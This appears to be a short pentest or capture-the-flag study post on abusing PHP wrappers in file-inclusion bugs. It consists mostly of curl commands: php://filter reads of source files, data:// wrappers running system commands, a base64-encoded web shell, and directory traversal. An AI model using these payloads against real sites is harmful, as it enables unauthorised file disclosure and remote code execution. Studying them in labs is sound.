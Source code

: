 ```yaml
---
layout: post
title: Web App PHP Wrappers
titledate: 08/30/23
tags: ["infosec","offsec", "web", "lfi", "exploit", "php"]
---
```


<h4>PHP Wrappers</h4>

There are many php wrappers that can be used to bypass filters display file contents and obtain code execution

If we are trying to obtain more information about a php page perhaps we can use the php://filter wrapper

    $ curl http://vulnapp.com/home/index.php?page=php://filter/resource=admin.php

our content may be blocked so we can pass encoding options to filter

    $ curl http://vulnapp.com/home/index.php?page=php://filter/convert.base64-encode/resource=admin.php

the filter wrapper displays the file contents and the data wrapper can execute code

    $ curl "http://vulnapp.com/home/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

as in the above filter wrapper example we may need to encode our command we pass to the data wrapper

    $ curl "http://vulnapp.com/home/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

if we are using this in conjunction with a dir traversal it could look like

    $ curl http://vulnapp.com/home/index.php?page=php://filter/convert.base64-encode/resource=admin.php../../../../../../../../var/www/server/page.php

<h3>LOG ALL FLAGS BEFORE TURNING OFF MACHINE OR VPN</h3>
